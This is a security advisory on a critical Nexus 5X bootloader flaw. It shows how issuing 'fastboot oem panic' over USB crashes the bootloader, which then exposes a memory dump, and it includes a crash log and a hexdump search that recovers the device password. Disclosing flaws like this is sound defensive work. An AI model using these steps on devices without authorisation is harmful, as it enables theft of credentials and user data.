 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2016-09-01' 
alephid: ALEPH-2016000
date: '2016-09-05'
title: 'Google Nexus 5X Bootloader Unauthorized Memory Dumping via USB'
severity: critical
product:
    - Nexus 5X
    
vulnerable:
    - Nexus 5X with Android 6.0 MDA39E through 6.0.1 MMB29V (bootloaders bhz10i/k)
    
mitigation: 'Upgrade to the latest version of Nexus (MHC19J or later)'

references:
    - src: SecurityIntelligence
      url: https://securityintelligence.com/going-inside-an-arbitrary-kernel-write-vulnerability-in-the-nexus-9/
      
---
```

A vulnerability in Nexus 5X's bootloader allows an attacker to obtain a full memory dump of the device. The vulnerability can be exploited by either physical attackers, or by non-physical ones having ADB (Android Debug Bridge) access to the device. One possible scenario where a non-physical attacker can have ADB access is by first targeting an ADB-authorized developer’s PC and infecting it with malware. Another way is by using malicious chargers targeting ADB-enabled devices. Using such chargers requires the (naïve) victim to authorize the charger once connected
The attacker reboots the phone into the well-known ‘fastboot’ mode, which can be done without any authentication. A physical attacker can do this by pressing the ‘Volume Down’ button during device boot. An attacker with ADB access can do this by issuing the ‘adb reboot bootloader’ command. The fastboot mode exposes a USB interface, which on locked devices must not allow any security sensitive operation to be commanded. However, what discovered was that if the attacker issued (via the fastboot USB interface) the ‘fastboot oem panic’ command, the bootloader would be forced to crash:
```
[38870] fastboot: oem panic
[38870] panic (frame 0xf9b1768):
[38870] r0  0x0f9972c4 r1  0x4e225c22 r2  0x7541206f r3  0x74206874
[38870] r4  0x0f9972e8 r5  0x0f96715c r6  0x0f9972f0 r7  0x0f9670ec
[38870] r8  0x0f92e070 r9  0x00000000 r10 0x00000000 r11 0x00000000
[38870] r12 0x0f92e070 usp 0x0f9650ec ulr 0x00000000 pc  0x0f99c75c
[38870] spsr 0x0f936964
[38870]  fiq r13 0x0f989490 r14 0x00000000
[38870]  irq r13 0x0f989490 r14 0x0f9004f4
[38870]  svc r13 0x0f9b16f0 r14 0x0f92dd0c
[38870]  und r13 0x0f989490 r14 0x00000000
[38870]  sys r13 0x00000000 r14 0x00000000
[38880] panic (caller 0xf936964): generate test-panic
```  

The problem is that in the vulnerable versions of the bootloader, such a crash caused the bootloader to expose a serial-over-USB connection, which allowed fetching a full memory dump of the device, using tools such as QPST Configuration.

To illustrate the severity of the attack, as the victim, I set the device password to “buggybootload3r” and then searched it in the memory dump:

```terminal
> hexdump DDRCS0_0.BIN | grep -10 bootloa
...
2675d060: 6f 00 69 00 64 00 2e 00 – 73 00 65 00 72 00 76 00 o.i.d… s.e.r.v.
2675d070: 69 00 63 00 65 00 2e 00 – 67 00 61 00 74 00 65 00 i.c.e… g.a.t.e.
2675d080: 6b 00 65 00 65 00 70 00 – 65 00 72 00 2e 00 49 00 k.e.e.p. e.r…I.
2675d090: 47 00 61 00 74 00 65 00 – 4b 00 65 00 65 00 70 00 G.a.t.e. K.e.e.p.
2675d0a0: 65 00 72 00 53 00 65 00 – 72 00 76 00 69 00 63 00 e.r.S.e. r.v.i.c.
2675d0b0: 65 00 00 00 00 00 00 00 – 3a 00 00 00 00 0d c4 b6 e……. ……..
2675d0c0: 6d 42 cd 0a b1 00 00 00 – 00 00 00 00 00 00 00 00 mB…… ……..
2675d0d0: 00 00 00 00 00 92 86 33 – e3 79 92 8b b7 d4 77 f5 …….3 .y….w.
2675d0e0: 94 7f d0 2b fb b8 6e cc – 98 3b 9a a7 0d 7c 60 f6 ……n. ……..
2675d0f0: d7 70 68 c2 14 01 00 00 – 0f 00 00 00 62 75 67 67 .ph….. ….bugg
2675d100: 79 62 6f 6f 74 6c 6f 61 – 64 33 72 00 62 75 67 67 ybootloa d3r.bugg
...
```
As one can see, the password can be found on the fetched memory dump. Physical attackers can then successfully boot the platform, which further allows them to impersonate the user, access data stored on the device and more.
